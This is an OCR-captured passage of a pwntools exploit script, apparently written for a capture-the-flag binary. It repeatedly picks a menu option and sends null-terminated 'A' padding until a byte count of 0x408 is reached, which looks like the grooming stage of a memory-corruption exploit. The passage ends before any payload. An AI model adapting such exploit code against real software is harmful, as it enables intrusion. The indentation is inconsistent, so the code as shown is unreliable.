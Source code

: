     	p.sendafter("chars: ","\x00")
    
    count = 16
    
    while 1:
    	p.sendafter("> ","2")
            p.recvuntil("me ")
            size=int(p.recvuntil(" ")[:-1])
    
    	if size == 0:
    		continue
    
    	if size == 8:
    		log.info("count::"+str(count))
    		p.sendafter("chars: ","A"*size)
    		count += size
    		if count == 0x408:
    			log.info("SIZE::::"+str(count))
    			break
    		continue
    
    	if size==9:
                    log.info("count::"+str(count))
                    p.sendafter("chars: ","A"*(size-1)+"\x00")
                    count += (size-1)
                    if count == 0x408:
                            log.info("SIZE::::"+str(count))
                            break
                    continue
    
            if size==10:
                    log.info("count::"+str(count))
                    p.sendafter("chars: ","A"*(size-2)+"\x00")
                    count += (size-2)
                    if count == 0x408:
                            log.info("SIZE::::"+str(count))
                            break
                    continue
    
            if size==11:
                    log.info("count::"+str(count))
                    p.sendafter("chars: ","A"*(size-3)+"\x00")
                    count += (size-3)
                    if count == 0x408:
                            log.info("SIZE::::"+str(count))
                            break
                    continue
    	
            if size==12:
                    log.info("count::"+str(count))
                    p.sendafter("chars: ","A"*(size-4)+"\x00")
                    count += (size-4)
                    if count == 0x408:
                            log.info("SIZE::::"+str(count))
                            break
                    continue
    
